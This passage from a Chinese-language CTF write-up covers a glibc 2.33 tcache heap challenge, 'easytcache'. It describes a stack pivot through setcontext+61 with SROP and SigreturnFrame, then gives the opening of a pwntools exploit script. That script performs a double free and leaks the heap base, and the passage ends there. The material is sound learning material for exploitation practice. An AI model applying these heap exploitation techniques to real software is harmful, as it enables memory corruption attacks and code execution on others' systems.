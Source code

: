 同时我们还需要进行一次栈迁移，故考虑通过setcontext + 61上的gadget进行SROP，那么我们最初的跳转位置可以跳到这里：

![](img/cb54c0511e72d407506039ad7ddbf7bb.png)

我们还需要构造`ucontext_t`结构体 ，可以使用前面的那个预留的紧挨着top chunk的chunk，使用pwntools中的`SigreturnFrame()`可以快速构造该结构体，同时stderr + 8的位置需要指向该堆块

最后的exp如下：

```
 from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process(['./ld-2.33.so', './easytcache'], env={'LD_PRELOAD':'./libc.so.6'})
e = ELF('./easytcache')
libc = ELF('./libc.so.6')
one_gadget = 0xe6e73

def cmd(choice:int):
    p.recvuntil(b"Your choice: ")
    p.sendline(str(choice).encode())

def new(size:int):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content?")
    p.send(content)

def dump(index:int):
    cmd(3)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content: ")

def free(index:int):
    cmd(4)
    p.recvuntil(b"index?")
    p.sendline(str(index).encode())

def exp():

    new(0x100) 
    free(0)
    free(0)

    log.info("start leaking the heap base addr...")
    edit(0, b'arttnba3')
    dump(0)
    p.recvuntil(b'arttnba3')
    heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_base = heap_leak - 0x10
    log.success('heap base leak: ' + str(hex(heap_base)))

```